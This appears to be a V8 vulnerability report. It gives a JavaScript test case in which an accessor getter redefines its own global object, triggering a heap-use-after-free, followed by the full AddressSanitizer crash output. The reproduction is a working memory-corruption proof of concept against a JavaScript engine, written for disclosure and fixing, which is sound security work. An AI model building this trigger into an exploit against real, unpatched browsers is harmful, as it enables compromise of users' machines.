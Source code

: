 <b>VULNERABILITY DETAILS</b>

I'm not sure why this vulnerability occurs.
I guess this vulnerability related with variable allocation and scoping issue
when v8 compiles test.js

This vulnerability occurs in the following conditions:
- define a property with accessor of global scoped object
- define local variables within getter block
- redefine the same object with accessor among variable declarations.


<b>VERSION</b>
v8 5.9.211.31 32/64bit version (asan)
v8 6.1.0 (candidate, current master branch) 64bit version (asan)
I tested in Ubuntu 16.04 64bit.

<b>REPRODUCTION CASE</b>

================ test.js ==================
var proto = {};
Object.defineProperty(proto, 1, {
    get() {
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        Object.defineProperty(proto, 1, { get() {} });
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
        proto = 1;
    }
});

==========================================

$ ~/v8/out/asan/d8 test.js 
=================================================================
==94791==ERROR: AddressSanitizer: heap-use-after-free on address 0x6250000143e0 at pc 0x563323defddf bp 0x7ffeeb7f7cf0 sp 0x7ffeeb7f7ce8
READ of size 8 at 0x6250000143e0 thread T0
    #0 0x563323defdde  (/home/junekim/v8/out/asan/d8+0x731dde)
    #1 0x563323deb1bf  (/home/junekim/v8/out/asan/d8+0x72d1bf)
    #2 0x563323deb037  (/home/junekim/v8/out/asan/d8+0x72d037)
    #3 0x563323de4d01  (/home/junekim/v8/out/asan/d8+0x726d01)
    #4 0x563323de468a  (/home/junekim/v8/out/asan/d8+0x72668a)
    #5 0x563323fb8b81  (/home/junekim/v8/out/asan/d8+0x8fab81)
    #6 0x563323fcbe27  (/home/junekim/v8/out/asan/d8+0x90de27)
    #7 0x563323fc0df0  (/home/junekim/v8/out/asan/d8+0x902df0)
    #8 0x563323fc64d6  (/home/junekim/v8/out/asan/d8+0x9084d6)
    #9 0x563323ca4af0  (/home/junekim/v8/out/asan/d8+0x5e6af0)
    #10 0x563323ca5bc6  (/home/junekim/v8/out/asan/d8+0x5e7bc6)
    #11 0x563323c3f5c8  (/home/junekim/v8/out/asan/d8+0x5815c8)
    #12 0x563323c3f9ce  (/home/junekim/v8/out/asan/d8+0x5819ce)
    #13 0x563323c51aea  (/home/junekim/v8/out/asan/d8+0x593aea)
    #14 0x563323c56b05  (/home/junekim/v8/out/asan/d8+0x598b05)
    #15 0x563323c5f4be  (/home/junekim/v8/out/asan/d8+0x5a14be)
    #16 0x7f56185a982f  (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)

0x6250000143e0 is located 736 bytes inside of 8192-byte region [0x625000014100,0x625000016100)
freed by thread T0 here:
    #0 0x563323c0fb72  (/home/junekim/v8/out/asan/d8+0x551b72)
    #1 0x5633253a9b42  (/home/junekim/v8/out/asan/d8+0x1cebb42)
    #2 0x563324d4beea  (/home/junekim/v8/out/asan/d8+0x168deea)
    #3 0x563324dc38a3  (/home/junekim/v8/out/asan/d8+0x17058a3)
    #4 0x563324db59d7  (/home/junekim/v8/out/asan/d8+0x16f79d7)
    #5 0x563324dae343  (/home/junekim/v8/out/asan/d8+0x16f0343)
    #6 0x563324dd89d0  (/home/junekim/v8/out/asan/d8+0x171a9d0)
    #7 0x563324dd2576  (/home/junekim/v8/out/asan/d8+0x1714576)
    #8 0x563324dcb5c5  (/home/junekim/v8/out/asan/d8+0x170d5c5)
    #9 0x563324e10dc4  (/home/junekim/v8/out/asan/d8+0x1752dc4)
    #10 0x563324e0ca9a  (/home/junekim/v8/out/asan/d8+0x174ea9a)
    #11 0x563324e0ae81  (/home/junekim/v8/out/asan/d8+0x174ce81)
    #12 0x563324e08247  (/home/junekim/v8/out/asan/d8+0x174a247)
    #13 0x563324d5976c  (/home/junekim/v8/out/asan/d8+0x169b76c)
    #14 0x563324dd3a9c  (/home/junekim/v8/out/asan/d8+0x1715a9c)
    #15 0x563324dcd260  (/home/junekim/v8/out/asan/d8+0x170f260)
    #16 0x563324e10dc4  (/home/junekim/v8/out/asan/d8+0x1752dc4)
    #17 0x563324e0ca9a  (/home/junekim/v8/out/asan/d8+0x174ea9a)
    #18 0x563324e0ae81  (/home/junekim/v8/out/asan/d8+0x174ce81)
    #19 0x563324e08247  (/home/junekim/v8/out/asan/d8+0x174a247)
    #20 0x563324d5976c  (/home/junekim/v8/out/asan/d8+0x169b76c)
    #21 0x563324db7975  (/home/junekim/v8/out/asan/d8+0x16f9975)
    #22 0x563324dec627  (/home/junekim/v8/out/asan/d8+0x172e627)
    #23 0x563324dde9aa  (/home/junekim/v8/out/asan/d8+0x17209aa)
    #24 0x563324daca9c  (/home/junekim/v8/out/asan/d8+0x16eea9c)
    #25 0x563324d3c795  (/home/junekim/v8/out/asan/d8+0x167e795)
    #26 0x563324d3a7e3  (/home/junekim/v8/out/asan/d8+0x167c7e3)
    #27 0x563324e16f8d  (/home/junekim/v8/out/asan/d8+0x1758f8d)
    #28 0x563323fc0f48  (/home/junekim/v8/out/asan/d8+0x902f48)
    #29 0x563323fc64d6  (/home/junekim/v8/out/asan/d8+0x9084d6)

previously allocated by thread T0 here:
    #0 0x563323c0fea3  (/home/junekim/v8/out/asan/d8+0x551ea3)
    #1 0x5633253a9489  (/home/junekim/v8/out/asan/d8+0x1ceb489)
    #2 0x5633253a9e15  (/home/junekim/v8/out/asan/d8+0x1cebe15)
    #3 0x5633253a9c9b  (/home/junekim/v8/out/asan/d8+0x1cebc9b)
    #4 0x563324d28047  (/home/junekim/v8/out/asan/d8+0x166a047)
    #5 0x563324d4aa4f  (/home/junekim/v8/out/asan/d8+0x168ca4f)
    #6 0x563324dc38a3  (/home/junekim/v8/out/asan/d8+0x17058a3)
    #7 0x563324db59d7  (/home/junekim/v8/out/asan/d8+0x16f79d7)
    #8 0x563324dae343  (/home/junekim/v8/out/asan/d8+0x16f0343)
    #9 0x563324dd89d0  (/home/junekim/v8/out/asan/d8+0x171a9d0)
    #10 0x563324dd2576  (/home/junekim/v8/out/asan/d8+0x1714576)
    #11 0x563324dcb5c5  (/home/junekim/v8/out/asan/d8+0x170d5c5)
    #12 0x563324e10dc4  (/home/junekim/v8/out/asan/d8+0x1752dc4)
    #13 0x563324e0ca9a  (/home/junekim/v8/out/asan/d8+0x174ea9a)
    #14 0x563324e0ae81  (/home/junekim/v8/out/asan/d8+0x174ce81)
    #15 0x563324e08247  (/home/junekim/v8/out/asan/d8+0x174a247)
    #16 0x563324d5976c  (/home/junekim/v8/out/asan/d8+0x169b76c)
    #17 0x563324dd3a9c  (/home/junekim/v8/out/asan/d8+0x1715a9c)
    #18 0x563324dcd260  (/home/junekim/v8/out/asan/d8+0x170f260)
    #19 0x563324e10dc4  (/home/junekim/v8/out/asan/d8+0x1752dc4)
    #20 0x563324e0ca9a  (/home/junekim/v8/out/asan/d8+0x174ea9a)
    #21 0x563324e0ae81  (/home/junekim/v8/out/asan/d8+0x174ce81)
    #22 0x563324e08247  (/home/junekim/v8/out/asan/d8+0x174a247)
    #23 0x563324d5976c  (/home/junekim/v8/out/asan/d8+0x169b76c)
    #24 0x563324db7975  (/home/junekim/v8/out/asan/d8+0x16f9975)
    #25 0x563324dec627  (/home/junekim/v8/out/asan/d8+0x172e627)
    #26 0x563324dde9aa  (/home/junekim/v8/out/asan/d8+0x17209aa)
    #27 0x563324daca9c  (/home/junekim/v8/out/asan/d8+0x16eea9c)
    #28 0x563324d3c795  (/home/junekim/v8/out/asan/d8+0x167e795)
    #29 0x563324d3a7e3  (/home/junekim/v8/out/asan/d8+0x167c7e3)

SUMMARY: AddressSanitizer: heap-use-after-free (/home/junekim/v8/out/asan/d8+0x731dde) 
Shadow bytes around the buggy address:
  0x0c4a7fffa820: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x0c4a7fffa830: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x0c4a7fffa840: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x0c4a7fffa850: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x0c4a7fffa860: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
=>0x0c4a7fffa870: fd fd fd fd fd fd fd fd fd fd fd fd[fd]fd fd fd
  0x0c4a7fffa880: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x0c4a7fffa890: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x0c4a7fffa8a0: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x0c4a7fffa8b0: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x0c4a7fffa8c0: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==94791==ABORTING

